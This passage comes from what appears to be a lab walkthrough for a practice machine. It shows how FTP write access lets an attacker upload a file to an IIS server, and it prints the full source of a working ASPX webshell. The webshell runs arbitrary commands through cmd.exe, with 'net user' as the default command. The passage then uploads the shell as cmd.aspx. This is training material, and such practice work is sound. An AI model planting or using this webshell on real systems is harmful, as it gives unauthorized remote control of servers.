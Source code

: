 So - write permissions on the FTP and ability to view/execute those files on IIS. This calls for an aspx webshell (we are going against IIS after all). Here is the code :

```html
<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">      

Sub RunCmd(Src As Object, E As EventArgs)            
  Dim myProcess As New Process()            
  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)            
  myProcessStartInfo.UseShellExecute = false            
  myProcessStartInfo.RedirectStandardOutput = true            
  myProcess.StartInfo = myProcessStartInfo            
  myProcessStartInfo.Arguments=xcmd.text            
  myProcess.Start()            

  Dim myStreamReader As StreamReader = myProcess.StandardOutput            
  Dim myString As String = myStreamReader.Readtoend()            
  myProcess.Close()            
  mystring=replace(mystring,"<","&lt;")            
  mystring=replace(mystring,">","&gt;")            
  result.text= vbcrlf & "<pre>" & mystring & "</pre>"    
End Sub

</script>

<html>
<body>    
<form runat="server">        
<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>        
<asp:TextBox id="xpath" runat="server" Width="300px">c:\windows\system32\cmd.exe</asp:TextBox>        
<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>        
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>        
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>        
<p><asp:Label id="result" runat="server"></asp:Label>       
</form>
</body>
</html>
```

So we put this to a file and upload it to the FTP as *cmd.aspx*. Now our webshell is on the IIS7 server :

![Webshell](/img/posts/cyberseclabs-weak/webshell.png)